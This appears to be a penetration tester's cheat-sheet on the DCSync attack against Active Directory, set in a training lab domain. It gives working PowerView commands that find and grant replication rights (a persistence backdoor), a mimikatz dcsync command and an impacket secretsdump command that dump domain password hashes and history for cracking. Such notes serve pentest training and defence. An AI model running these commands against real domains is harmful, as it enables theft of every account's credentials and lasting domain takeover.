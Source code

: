 ```yaml
---
title: DCSync
date: M02-18-2023
author: i4
---
```

- `IDL_DRSGetNCChanges`

## Info
- Uses: `Directory Replication Service Remote Protocol (MS-DRSR)`

A domain controller receiving a request for an update does not verify that the request came from a known domain controller, but only that the associated SID has appropriate privileges.

- Can be scanned for with [ADACLScanner](https://github.com/canix1/ADACLScanner)

## Requirements
- Compromised: 
	- Domain Admins
	- Enterprise Admins
	- Domain Controllers
 
## Check who has the permissions:
```
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ?{($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ActiveDirectoryRights -match 'WriteDacl')}
```

## Giving somebody DCSync permissions

```
Add-ObjectAcl -TargetDistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -PrincipalSamAccountName username -Rights DCSync -Verbose
```

### Checking
```
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ?{$_.IdentityReference -match "student114"}
```

## Using mimikatz
```mimikatz
mimikatz # lsadump::dcsync /user:Administrator
```

## With IMPacket
```bash
secretsdump.py -just-dc <user>:<password>@<ipaddress> -outputfile dcsync_hashes
[-just-dc-user <USERNAME>] #To get only of that user
[-pwd-last-set] #To see when each account's password was last changed
[-history] #To dump password history, may be helpful for offline password cracking
```